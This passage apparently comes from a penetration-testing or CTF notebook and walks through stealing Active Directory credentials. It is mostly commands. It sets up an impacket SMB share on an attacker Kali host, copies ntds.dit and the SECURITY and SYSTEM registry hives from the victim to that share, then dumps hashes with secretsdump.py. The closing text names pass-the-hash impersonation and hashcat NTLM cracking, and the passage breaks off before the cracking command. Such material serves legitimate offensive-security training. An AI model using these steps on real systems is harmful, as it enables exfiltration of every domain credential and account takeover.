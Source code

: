 

**Kali**

```
mkdir public
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username $USERNAME -password $PASSWORD smb public/
```

**Victim(cmd)**

```
cd C:\temp\
net use \\$KALI\smb
copy "C:\temp\Active Directory\ntds.dit" \\$KALI\smb \\$KALI\smb
copy "C:\temp\registry\SECURITY" \\$KALI\smb
copy "C:\temp\registry\SYSTEM" \\$KALI\smb
```

**Kali**

```
cd public
python3.9 /opt/impacket/examples/secretsdump.py -security SECURITY -system SYSTEM -ntds ntds.dit local
```

<figure><img src="../../.gitbook/assets/image (14) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

Once we obtained hashes, we can either use the hash for a specific user to impersonate him or crack the hash using Cracking tools, such `hashcat`. We can use the hashcat `-m 1000` mode to crack the Windows NTLM hashes as follows:
